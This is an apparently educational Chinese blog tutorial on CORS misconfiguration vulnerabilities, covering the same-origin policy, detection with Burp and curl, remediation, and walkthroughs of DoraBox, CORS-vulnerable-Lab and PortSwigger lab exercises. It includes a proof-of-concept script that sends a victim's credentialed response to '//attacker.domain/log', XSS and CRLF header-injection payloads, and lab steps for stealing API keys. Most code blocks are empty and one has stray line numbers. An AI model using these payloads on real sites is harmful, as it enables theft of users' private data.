


CORS跨域漏洞
0x01 漏洞简介
跨域资源共享(CORS)是一种放宽同源策略的机制，它允许浏览器向跨源服务器，发出 XMLHttpRequest 请求，从而克服了 AJAX 只能同源使用的限制，以使不同的网站可以跨域获取数据，目前已经被绝大多数浏览器支持，并被主流网站广泛部署使用。跨域资源共享 CORS 漏洞主要是由于程序员配置不当，对于 Origin 源校验不严格，从而造成跨域问题，攻击者可以利用 CORS 错误配置漏洞，从恶意网站跨域读取受害网站的敏感信息。
是H5提供的一种机制，WEB应用程序可以通过在HTTP增加字段来告诉浏览器，哪些不同来源的服务器是有权访问本站资源的，当不同域的请求发生时，就出现了跨域的现象。
同源策略
这里我们必须要了解一下同源策略：同源策略是一种限制性的跨域规范，它限制了网站与源域之外的资源进行交互的能力。起源于多年前的策略是针对潜在的恶意跨域交互（例如，一个网站从另一个网站窃取私人数据）而制定的。通常，它允许一个域向其他域发出请求，但不允许访问响应。源由通信协议，域和端口号组成。
SOP是一个很好的策略，但是随着Web应用的发展，网站由于自身业务的需求，需要实现一些跨域的功能，能够让不同域的页面之间能够相互访问各自页面的内容。
简单来说:同时满足同协议，同域名，同端口这三个条件，就是同源。
浏览器的同源策略规定：不同域的客户端脚本在没有明确授权的情况下，不能读写对方的资源。
SOP全称为Same Origin Policy即同源策略，该策略是浏览器的一个安全基石，同源策略规定：不同域的客户端脚本在没有明确授权的情况下，不能读写对方的资源。简单来说同源策略就是浏览器会阻止一个源与另一个源的资源交互。可以试想一下，如果没有同源策略，当你访问一个正常网站的时候又无意间打开了另一个恶意网站，恶意网站会从你刚刚访问的正常网站上窃取你全部的信息。
跨域访问的一些场景
- 比如后端开发完一部分业务代码后，提供接口给前端用，在前后端分离的模式下，前后端的域名是不一致的，此时就会发生跨域访问的问题。
- 程序员在本地做开发，本地的文件夹并不是在一个域下面，当一个文件需要发送ajax请求，请求另外一个页面的内容的时候，就会跨域。
- 电商网站想通过用户浏览器加载第三方快递网站的物流信息。
- 子站域名希望调用主站域名的用户资料接口，并将数据显示出来。
跨域请求方式
CORS定义了两种跨域请求，简单跨域请求和非简单跨域请求。只要同时满足以下两大条件，就属于简单请求。
1 | |
1 | |
简单的说就是设置了一个白名单，符合这个条件的才是简单请求。其他不符合的都是非简单请求。
浏览器对简单请求和非简单请求的处理机制不一样。
对于简单请求，浏览器就会立刻发送这个请求。
对于非简单请求，浏览器不会马上发送这个请求，而是有一个preflight，跟服务器验证的过程。浏览器先发送一个options方法的预检请求。
0x02 CORS跨域原理及漏洞成因
浏览器将CORS请求分成两类：简单请求（simple request）和非简单请求（not-so-simple request）。
对于简单请求，大致流程是浏览器发现这一次向服务器提交的请求是简单请求，所以自动在头信息中增加了一个Origin的字段，用来表示这次的请求来自哪个域。当服务器接收到请求后发现Origin字段指定的域名在许可范围内，服务器会在响应包中增加三个与CORS相关的字段，Access-Control-Allow-Origin、Access-Control-Allow-Credentials、Access-Control-Expose-Headers。其中Access-Control-Allow-Origin字段是必须存在的，它的值可能是Origin字段的值或者是一个通配符“*”，表示可以接受任意域名的请求，当然大部分服务器如果配置了通配符的话，信息泄露的风险骤然加大。再回到三个字段上，其中Access-Control-Allow-Credentials字段不是必选字段，它的值是一个布尔值且只能设置为true，表示服务器允许浏览器将cookie包含在请求中，否则就不添加此字段。但需要注意的是，如果要发送cookie，Access-Control-Allow-Origin就不能设为星号，必须明确指定与请求网页一致的域名，同时Cookie依然遵循同源策略。而Access-Control-Expose-Headers字段主要是指定想要获取XMLHttpRequest对象中getResponseHeader（）方法的其他服务器字段。
所谓非简单请求就是那种对服务器提出特殊要求的请求，例如请求方法为PUT或DELETE。非简单的CORS请求会在正式通信之前，增加一次HTTP查询请求，称之为“预检请求”。浏览器先询问服务器，当前网页所在的域名是否在服务器的许可名单里以及可以使用哪些HTTP动词和头信息字段。只有获得了肯定响应，浏览器才会正式发出XMLHttpRequest请求否则就报错。这种请求的好处是对传统的没有CORS支持的服务器减小压力，给服务器一个提前拒绝的机会。具体流程如下，当构造请求包的方法是PUT或DELETE并传给浏览器时，浏览器发现此请求是非简单请求所以浏览器构造一个预检请求包，请求头是OPTIONS，并携带三个关键字段，Origin、Access-Control-Request-Method、Access-Control-Request-Headers。其中Access-Control-Request-Method表示浏览器的CORS请求会用到哪些HTTP方法，Access-Control-Request-Headers表示浏览器CORS请求会额外发送的头信息字段。服务器收到预检请求后，检查了三个核心字段以后如果确定允许跨域请求，会返回一个正常的HTTP回应，并携带传入的CORS头信息。如果服务器否定请求，虽然也会返回一个正常的HTTP回应但是没有任何CORS相关的头信息字段，或明确表示请求不符合条件。浏览器根据预请求的返回结果决定接下来是进行简单请求还是拒绝请求。
CORS使用检查请求头的相关字段和服务端的规则进行对比，来选择是否允许跨域。但凡是需要配置规则的程序，避免不了会出现一些意外，就像很多资深程序员有时也会写不出恰当的正则一样，当服务端配置的规则不够合理，导致非同域的资源可以互相访问，例如Access-Control-Allow-Origin: *。CORS反而使同源策略的保护机制土崩瓦解。因此，CORS漏洞的成因很明显，就是服务端配置的规则不当所导致的。
0x03 CORS漏洞攻击流程
1.假设用户登陆一个含有CORS配置网站foo.com，同时又访问了攻击者提供的一个链接evil.com。
2.evil.com的网站向foo.com这个网站发起请求获取敏感数据，浏览器能否接收信息取决于foo.com的配置。
3.如果foo.com配置了Access-Control-Allow-Origin头且为预期，那么允许接收，否则浏览器会因为同源策略而不接收。
http://foo.com/phpinfo.php代码如下
在访问index.php后再次访问phpinfo.php就可以在phpinfo页面发现httponly的COOKIE，在这里我们假设此cookie就是黑客想要获取的敏感信息。
然后构造黑客发生送给用户的恶意页面http://evil.com/steal.html
1 | |
当用户点开此网页时，由evil.com通过AJAX发出一个向foo.com的资源请求，所以浏览器自动添加了Origin字段。
接下来黑客将获取到的敏感信息POST提交到save.php中，而save.php将数据保存在phpinfo.html里。evil.com/save.php代码如下：
黑客的请求流程是steal.html->phpinfo.php->save.php。我们通过BurpSuite的Repeater功能重放抓到的phpinfo.php请求包可以发现响应包是含有返回内容的，也就是请求到的资源。
但是在save.php中并没有返回的资源，通过检查浏览器的控制台提示信息发现，由于响应包缺少Access-Control-Allow-Origin响应头，导致浏览器拦截了跨源请求。
重新访问http://evil.com/steal.html
发现响应包中出现了对应的CORS响应头，Access-Control-Allow-Origin指是允许访问的源，Access-Control-Allow-Credentials指的是允许带上cookie访问资源。这样浏览器就不会出错而拦截请求了，随后js脚本把页面编码后发送到evil.com/save.php去
模拟黑客访问evil.com/phpinfo.html页面，可以发现已经被窃取过来的敏感信息。至此成功利用CORS漏洞进行跨域资源访问。

0x04 修复及防御方式
1 | |
0x05 简单请求的示例
跨域资源共享（CORS）规范规定了在Web服务器和浏览器之间交换的标头内容，该标头内容限制了源域之外的域请求web资源。CORS规范标识了协议头中Access-Control-Allow-Origin最重要的一组。当网站请求跨域资源时，服务器将返回此标头，并由浏览器添加标头Origin。
例如下面的来自站点 http://example.com 的网页应用想要访问 http://bar.com 的资源：
requests
1 | |
response
1 | |
第 1~9 行是请求首部。在第10行的请求头 Origin 表明该请求来源于 http://example.com。
第 11~18 行是来自于 http://bar.com 的服务端响应。响应中携带了响应首部字段 Access-Control-Allow-Origin（第 14 行）。使用 Origin 和 Access-Control-Allow-Origin 就能完成最简单的访问控制。本例中，服务端返回的 Access-Control-Allow-Origin: * 表明，该资源可以被任意外域访问。如果服务端仅允许来自 http://example.com 的访问，该首部字段的内容如下：
Access-Control-Allow-Origin: http://example.com
如果跨域请求可以包含cookie的话，在服务器响应里应该有这一字段：
Access-Control-Allow-Credentials: true
这样的话攻击者就可以利用这个漏洞来窃取已经在这个网站上登录了的用户的信息（利用cookie）
0x06 漏洞利用
这里以droabox靶场为例

这个接口会返回已登录的用户的信息数据，通过访问该网页的响应我们看到这里可能存在CORS跨域资源共享漏洞
接下来我们就可以建立一个恶意的js代码
1 | |
1 | |
访问这个页面就可以获取已登录的用户的信息
该恶意代码首先定义一个函数cors，以get形式访问目标网址，创建XMLHttpRequest对象为xhttp，通过ajax的onreadystatechange判断请求状态，如果请求已完成，且相应已就绪，则弹出返回文本。
0x07 漏洞发现技巧
在之前我们了解了一些关于CORS跨域资源共享通信的一些字段含义，
CORS的漏洞主要看当我们发起的请求中带有Origin头部字段时，服务器的返回包带有CORS的相关字段并且允许Origin的域访问。
方式一: BurpSuite
一般测试WEB漏洞都会用上BurpSuite，而BurpSuite可以实现帮助我们检测这个漏洞。
方式一: 首先是自动在HTTP请求包中加上Origin的头部字段，打开BurpSuite，选择Proxy模块中的Options选项，找到Match and Replace这一栏，勾选Request header 将空替换为Origin:example.com的Enable框。
在Filter by search term 中输入：Access-Control-Allow-Origin: foo.example.org
HTTP history列表中出现符合条件的请求包，点击Ctrl+R，点击GO，如下图，即该处有CORS漏洞。
组合应是这种：
1 | |
注意！如下组合是没有漏洞的。因为浏览器已经会阻止如下配置。
1 | |
当我们进行测试时，看服务器响应头字段里可以关注这几个点：
最好利用的配置：
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
可能存在可利用的配置：
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
很好的条件但无法利用：
下面这组配置组合虽然看起来很完美但是CORS机制已经默认自动禁止了这种组合，算是CORS的最后一道防线
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
单一的情况
方式二: Access-Control-Allow-Origin：
curl命令，输入curl http://127.0.0.1/DoraBox-master/csrf/userinfo.php -H "Origin:https://example.com/" -I
如果出现这种组合，说明存在CORS漏洞
1 | |
方式三: 使用CORScanner工具(漏洞自动化扫描)
github上提供了一个关于扫描CORS配置漏洞的脚本
https://github.com/chenjj/CORScanner
CORScanner是一个python工具，旨在发现网站的CORS错误配置漏洞。它可以帮助网站管理员和渗透测试人员检查他们针对的域/ URL是否具有不安全的CORS策略。
总结漏洞的原因：
1：CORS服务端的 Access-Control-Allow-Origin 设置为了 *，并且 Access-Control-Allow-Credentials 设置为false，这样任何网站都可以获取该服务端的任何数据了。
2：有一些网站的Access-Control-Allow-Origin他的设置并不是固定的，而是根据用户跨域请求数据的Origin来定的。这时，不管Access-Control-Allow-Credentials 设置为了 true 还是 false。任何网站都可以发起请求，并读取对这些请求的响应。意思就是任何一个网站都可以发送跨域请求来获得CORS服务端上的数据。
安全隐患
这个流程中。服务器接收到跨域请求的时候，并没有先验证，而是先处理了请求。所以从某种程度上来说。在支持CORS的浏览器上实现跨域的写资源，打破了传统同源策略下不能跨域读写资源。
如果将Access-Control-Allow-Origin设置为允许来自所有域的跨域请求。那么CORS的安全机制几乎就无效了。但是这里在设计的时候有一个很好的限制。xmlhttprequest发送的请求需要使用“withCredentials”来带上cookie，如果一个目标域设置成了允许任意域的跨域请求，这个请求又带着cookie的话，这个请求是不合法的。（就是如果需要实现带cookie的跨域请求，需要明确的配置允许来源的域，使用任意域的配置是不合法的）浏览器会屏蔽掉返回的结果。
0x08 其他可能利用漏洞的地方
8.1 解析Origin头时出错
一些支持从多个来源进行访问的应用程序通过使用允许的来源白名单来实现。收到CORS请求后，会将提供的来源与白名单进行比较。如果来源出现在白名单中，那么它会反映在Access-Control-Allow-Origin标题中，以便授予访问权限。例如，web应用收到一个正常的请求：
1 | |
web应用根据其允许的来源列表检查当前请求资源的来源，如果在列表中，则按以下方式反映该来源：
1 | |
但在检测来源是否存在于白名单时经常可能出现问题，一些网站可能会允许其所有的子域（包括尚未存在未来可能存在的子域）来进行访问，或者允许其他网站的域以及其子域来访问请求。这些请求一般都通过通配符或者正则表达式来完成，但是如果这其中出现错误可能就会导致给予其他未被授权的域访问权限。例如：
例如，假设一个应用程序授予对以下列结尾的所有域的访问权限：
example.com
攻击者可能可以通过注册域来获得访问权限：
exeexample.com
或者，假设应用程序授予对所有以example.com开头的域访问权限，攻击者就可以使用该域获得访问权限：
example.com.evil-user.net
8.2 利用相互受CORS信任的域来进行XSS
假如两个互相受信任的源，如果其中一个网站存在XSS，攻击者就可以利用XSS注入一些JavaScript代码，利用这些代码对信任其源的另一个网站进行敏感信息的获取。
如果进行CORS请求时网站响应：
1 | |
就可以利用XSS漏洞在vulnerable.com网站上使用下面的URL来通过检索API密钥：
https://vulnerable.com/?xss=<script>cors-stuff-here</script>
8.3 白名单中的null值
CORS协议的一个重要安全前提是跨域请求中的Origin头不能被伪造，这个前提并不是总是成立。Origin头最早被提出用于防御CSRF攻击，它的语法格式在RFC 6564中被定义。RFC 6564规定，如果请求来自隐私敏感上下文时，Origin头的值应该为null，但是它却没有明确界定什么是隐私敏感上下文。
CORS协议复用了Origin头，但在CORS标准中同样缺乏对跨域请求Origin中null明确的定义和限制。有些开发者在网站上配置信任 null，用于与本地file页面共享数据，如下所示：
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
在这种情况下，攻击者可以使用各种技巧来生成跨域请求，该请求构造的Origin为null值。这将满足白名单的要求，从而导致跨域访问。例如，可以使用iframe以下格式的沙盒跨域请求来完成：
1 | |
这就意味着任何配置有Access-Control-Allow-Origin: null和Access-Control-Allow-Credentials:true的网站等同于没有浏览器SOP的保护，都可以被其他任意域以这种方式读取内容。
0x09 利用CORS漏洞(偏实际环境)
流程:
- 假设用户登陆一个含有CORS配置网站vuln.com，同时又访问了攻击者提供的一个链接evil.com。
- evil.com的网站向vuln.com这个网站发起请求获取敏感数据，浏览器能否接收信息取决于vuln.com的配置。
- 如果vuln.com配置了Access-Control-Allow-Origin头且为允许接收，否则浏览器会因为同源策略而不接收。
方式一：存在用户凭证

详细过程
-
创建一个JavaScript脚本去发送CORS请求，poc关键代码如下：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101
102
103
104
105
106
107
108
109
110
111
112
113
114
115
116
117
118
119
120
121
122
123
124
125
126
127
128
129
130
131
132
133
134
135
136
137
138
139
140
141
142
143
144
145
146
147
148
149
150
151
152
153
154
155
156
157
158
159
160
161
162
163
164
165
166
167
168
169
170
171
172
173
174
175
176
177
178
179
180
181
182
183
184
185
186
187
188
189
190
191
192
193
194
195
196
197
198
199
200
201
202
203
204
205
206
207
208
209
210
211
212
213
214
215
216
217
218
219
220
221var req = new XMLHttpRequest();
req.onload = reqListener();
req.open(“get”,”https://vulnerable.domain/api/private-data”,true);
req.withCredentials = true;
req.send();
function reqListener() {
location=”//attacker.domain/log?response=”+this.responseText;
};
2. 当带有目标系统的用户访问的主机访问上述代码的页面时，浏览器就会发送下面的请求到存在CORS配置的服务器。
```http
GET /api/private-data HTTP/1.1
Host: vulnerable.domain
Origin: https://attacker.domain/
Cookie: JSESSIONID=<redacted>
```
3. 响应包
```http
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Access-Control-Allow-Origin: https://attacker.domain
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Access-Control-Allow-Origin,Access-Control-Allow-Credentials
Vary: Origin
Expires: Thu, 01 Jan 1970 12:00:00 GMT
Last-Modified: Wed, 02 May 2018 09:07:07 GMT
Cache-Control: no-store, no-cache, must-revalidate, max-age=0, post-check=0, pre-check=0
Pragma: no-cache
Content-Type: application/json;charset=ISO-8859-1
Date: Wed, 02 May 2018 09:07:07 GMT
Connection: close
Content-Length: 149 {"id":1234567,"name":"Name","surname":"Surname","email":"email@target.local","account":"ACT1234567","balance":"123456,7","token":"to p-secret-string"}
```
3. 因为服务器发送了右边的“ Access-Control-Allow- *”给客户端，所以，攻击的浏览器允许包含恶意的JavaScript代码的页面访问用户的隐私数据。
#### 方式二：不存在用户凭证

**详细过程**
1. 攻击方式1：绕过基于IP的认证
如果目标应用程序与受害者的网络可达性，并且目标应用程序使用IP地址作为身份验证的方式，则黑客会利用受害者的浏览器作为代理去访问那些目标应用程序并且可以绕过那些基于IP的身份验证。
2. 攻击方式2：客户端缓存中毒
例如，数据报文头部中包含`X-User`标头，其值未进行任何输入验证，输出编码。
请求包
```http
GET /login HTTP/1.1
Host: www.target.local
Origin: https://attacker.domain/
X-User: <svg/onload=alert(1)>
```
响应包
`Access-Control-Allow-Origin`已被设置，`Access-Control-Allow-Credentials: true`与`Vary: Origin`头适合设置
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker.domain/
…
Content-Type: text/html
…
Invalid user: <svg/onload=alert(1)>
```
构造存在恶意的XSS有效负载页面，诱使受害者触发。
```JavaScript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','http://www.target.local/login',true);
req.setRequestHeader('X-User', '<svg/onload=alert(1)>');
req.send();
function reqListener() {
location='http://www.target.local/login';
}
```
1. 攻击方式3：服务器端缓存中毒
利用CORS的错误配置注入任意HTTP头部，将其保存在服务器端缓存中，可用于构造存储类型XSS。
利用条件：存在服务器端缓存，能够反射`Origin`头部，不会检查`Origin`头部中的特殊字符，如`\r`
利用方式：攻击IE / Edge用户（IE / Edge使用`\r`作为的HTTP标题段的终结符）
请求包
```http
GET / HTTP/1.1
Origin: z[0x0d]Content-Type: text/html; charset=UTF-7
```
回车（CR）：ASCII码：'\r' ，十六进制：0x0d
响应包
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: z
Content-Type: text/html; charset=UTF-7
```
如果攻击者能提前发送畸形的`Origin`消息头，则利用代理或命令行的方式发送，则服务器就会缓存这样的返回报文并作用于其他用户。上例中，攻击者将页面的编码设置为`UTF-7`，可引发XSS中断。
#### 类型2
1.描述
在正常的网页被嵌入了到攻击者控制页面的跨域请求，从而劫持用户的会话。
2.挖掘
同上
3.利用
1,交互式xss。通过CORS，绕过一些反会话劫持的方法，如HTTP-Only限制的cookie，绑定IP地址的会话ID等，劫持用户会话。
2,程序猿在写ajax请求的时候，对目标域限制不严。有点类似于url跳转。facebook出现过这样一个案例。javascript通过url里的参数进行ajax请求。
## 0x10 预防CORS漏洞
CORS漏洞主要是由于配置错误而引起的。所以，预防漏洞变成了一个配置问题。下面介绍了一些针对CORS攻击的有效防御措施。
1. 正确配置跨域请求
如果Web资源包含敏感信息，则应在Access-Control-Allow-Origin标头中正确指定来源。
2. 只允许信任的网站
看起来似乎很明显，但是Access-Control-Allow-Origin中指定的来源只能是受信任的站点。特别是，使用通配符来表示允许的跨域请求的来源而不进行验证很容易被利用，应该避免。
3. 避免将null列入白名单
避免使用标题Access-Control-Allow-Origin: null。来自内部文档和沙盒请求的跨域资源调用可以指定null来源。应针对私有和公共服务器的可信来源正确定义CORS头。
4. 避免在内部网络中使用通配符
避免在内部网络中使用通配符。当内部浏览器可以访问不受信任的外部域时，仅靠信任网络配置来保护内部资源是不够的。
5. CORS不能替代服务器端安全策略
CORS定义了浏览器的行为，绝不能替代服务器端对敏感数据的保护-攻击者可以直接从任何可信来源伪造请求。因此，除了正确配置的CORS之外，Web服务器还应继续对敏感数据应用保护，例如身份验证和会话管理。
## 0x11 CORS靶场练习
该靶场内置了3个 CORS 的漏洞场景
- 场景一：信任任意 Origin 源
- 场景二：正则表达式检测 Origin 源
- 场景三：信任任意 null 源
漏洞检测: 一般情况下，修改请求包 Header 中的 Origin 字段为任意域名或者为 null 的方式去检测该漏洞是否存在。
#### 场景一：信任任意 Origin 源
应用程序接受来自任何 Origin 的 CORS 请求。该代码将 Origin 值放在 HTTP 响应头 Access-Control-Allow-Origin 中。现在，此配置将允许来自任何 Origin 的任何脚本向应用程序发出 CORS 请求。Web 浏览器将执行标准的 CORS 请求检查，来自恶意域的脚本将能够窃取数据。
应用程序接受 Origin 标头中指定的任何值。

可以看到箭头处的域名,是任意的,而该网站都允许域名发出请求并回显(origin处是我自己添加的)
#### 场景二：正则表达式检测 Origin 源
应用程序已实施 CORS 策略并对列入白名单的域/子域执行“正则表达式”检查。在这种情况下，应用程序在代码中具有弱正则表达式实现，它只检查 HTTP 请求 Origin 标头中任何位置的域名 b0x.com 的存在。如果 HTTP 标头 Origin 的值为 inb0x.com 或 b0x.comlab.com，正则表达式会将其标记为通过。这种错误配置将导致跨源共享数据。
**应用程序信任列入白名单的 Origin。**

**应用程序不允许任何任意来源, 可以看到下图右侧没有CORS头**

应用程序弱正则表达式允许在域名开头具有白名单域字符串的 Origin。

应用程序弱正则表达式允许在域名末尾具有白名单域字符串的 Origin。

#### 场景三：信任null源
在这种情况下，应用程序 HTTP 响应标头 Access-Control-Allow-Origin 始终设置为 null。当用户指定 null 以外的任何值时，应用程序不会处理它并在 HTTP 响应中继续反映 null 。允许攻击者执行漏洞利用的技巧很少，并且可以使用 CORS 请求过滤受害者的数据。
**应用程序接受 Origin 标头中指定的 null 值。**

#### 注意事项
如果响应包 Header 中为以下情况 ，则不存在漏洞。
```
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials:true
```

原因是因为浏览器会对此类情况的请求进行自动拦截，不具备漏洞利用条件。
在 CORS-vulnerable-Lab 靶场的 POCs 目录下，有 CORS 漏洞利用的脚本
以 `arbitrary_origin_exploit.html` 为例，用文本编辑器打开该脚本文件，找到如下代码并根据实际应用场景进行修改
````js
<script>
//向目标应用程序网页发出 CORS 请求以获取 HTTP 响应的函数
function exploit() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
var all = this.responseText;
document.getElementById("load").innerHTML= all; // 分割打印被盗取的 HTTP 响应
}
};
xhttp.open("GET", "http://192.168.126.6/CORS/arbitrary_origin.php", true); //将 URL 更改为错误配置 CORS 策略的 URL
xhttp.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,\/;q=0.8");
xhttp.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
xhttp.withCredentials = true;
xhttp.send();
}
</script>
将利用脚本放置在搭建的恶意网站下，当受害者在同一浏览器登录目标网站，并打开该恶意链接，即可盗取目标网站的 HTTP 响应内容。
这里我复现不出来…
0x12 bp官网的靶场练习
实验一: 具有基本原点反射的 CORS 漏洞
信息:
1 | |
首先开启bp代理,同时关闭拦截,记录你浏览网页的请求
登陆账号，查看历史记录并观察到密钥是通过AJAX请求/accountDetails检索的，并且响应包含Access-Control-Allow-Credentials标头，表明它可能支持CORS

接下来我们将其发送到重发器,验证是否有CORS漏洞

如上图我们在请求区添加origin头,并写入随意的一个域名,响应后发现右侧的CORS头出现我们输入的域名(不论我们的域名是什么),这说明的确存在CORS漏洞, 即允许任意源的访问
接下来我们要编写js脚本,意在向服务器发送获取管理员详细信息的请求(这里是cookie),并将请求得到的数据存放在我们的日志中
https://0ac200c803b3121486c4a98700c50006: 此处换成你实验室的url即可
1 | |
接着将该脚本添加到漏洞服务器中(发送给受害者),查看你的日志,如下图可以看到成功得到管理员的apikey

如上图,从左到右依次点击即可
实验室二：受信任空源的CORS漏洞
提示:
这个网站有一个不安全的CORS配置，因为它信任“null”来源。
为了解决这个实验，编写一些JavaScript，使用CORS检索管理员的API密钥并将代码上传到漏洞利用服务器。当您成功提交管理员的API密钥时，该实验就解决了.
您可以使用以下凭据登录到自己的帐户：wiener:peter
同上题
登陆账号，单击"我的帐户"，查看历史记录并观察到密钥是通过AJAX请求/accountDetails检索的，并且响应包含Access-Control-Allow-Credentials标头，表明它可能支持CORS
经过实验发现,这次不能允许任意源的访问了,那我们给origin赋值为null看看响应,发现成功响应
接着用iframe构造null源的请求来绕过
在浏览器中，转到漏洞利用服务器并输入以下HTML（将YOUR-LAB-ID替换为实验室URL的URL，将YOUR-EXPLOIT-SERVER-ID替换为漏洞利用服务器ID）
1 | |
注意iframe沙箱的使用，因为这会生成一个空的源请求。
原因如下：GPT回答
1 | |
单击"查看漏洞利用"（view）。观察漏洞利用是否有效-已登录到日志页面，API密钥位于URL中（测试poc的可行性，就不在这测了，直接到发给受害者）
返回到利用漏洞攻击服务器并单击"将利用漏洞攻击发送给受害者"。
成功!!!
实验三: 受信任的不安全协议的CORS漏洞
提示:
1、此网站具有不安全的CORS配置，因为它信任所有子域，而不管协议如何。
2、解决实验：编制JavaScript，使用CORS检索管理员的API密钥并将代码上载到漏洞利用服务器。并提交api key
3、已有账号：wiener:peter
如上图,依旧可能存在CORS漏洞,发送到重发器验证
此时将origin标头改为:
1 | |
如上图成功发现利用漏洞(发现其任意子域都可以访问)
组合利用
打开一个产品页面，单击Check stock并观察它是使用一个子域上的HTTP URL加载的
接下来验证该子域是否存在XSS漏洞,如下图,响应中并没有对我们的恶意代码进行某些必要的编码过滤,因此的确存在XSS漏洞
在浏览器中，转到漏洞利用服务器并输入以下HTML，将YOUR-LAB-ID替换为您的唯一实验室URL，将YOUR-EXPLOIT-SERVER-ID替换为您的漏洞利用服务器ID：
1 | |
实验四: CORS漏洞与内部网络枢轴攻击
提示:
1、此网站具有不安全的CORS配置，因为它信任所有内部网络来源。
2、完成实验：编制JavaScript来定位本地网络（192.168.0.0/24，端口8080）上的端点，然后使用该端点来识别和创建基于CORS的攻击以删除用户。删除用户Carlos后，实验将得到解决。
part1:
需要扫描本地网络以查找端点。将$collaboratorPayload替换为Collaborator有效负载或漏洞利用服务器URL
1 | |
1 | |
在漏洞利用服务器中输入以下代码。单击存储，然后单击“将漏洞利用发送给受害者”。
检查日志或Collaborator交互组件，并查看发送给它的代码参数
发现: 192.168.0.175:8080
part2:
重新在利用漏洞攻击服务器中输入以下代码。将$ip替换为从协作者交互中检索到的IP地址和端口号。不要忘记添加Collaborator有效负载或再次利用服务器URL。更新并提供漏洞利用。
1 | |
1 | |
现在我们将探测用户名字段中的XSS漏洞。
检索URL中具有foundXSS=1的Collaborator交互；或者在日志中看到foundXSS=1
part3:
重新在利用漏洞攻击服务器中输入以下代码。将$ip替换为与步骤2中相同的IP地址和端口号，再次添加Collaborator有效负载或漏洞利用服务器。更新并提供漏洞利用
1 | |
Collaborator交互或利用服务器日志会提供管理页面的源代码
part4：
检索源代码，会注意到有一个允许删除用户的表单。重新在利用漏洞攻击服务器中输入以下代码。将$ip替换为相同的IP地址和端口号。
1 | |
1 | |
1 | |

代码通过注入一个指向/admin页面的iframe提交表单以删除carlos
详情参考: https://blog.csdn.net/qq_53079406/article/details/128696923?spm=1001.2014.3001.5502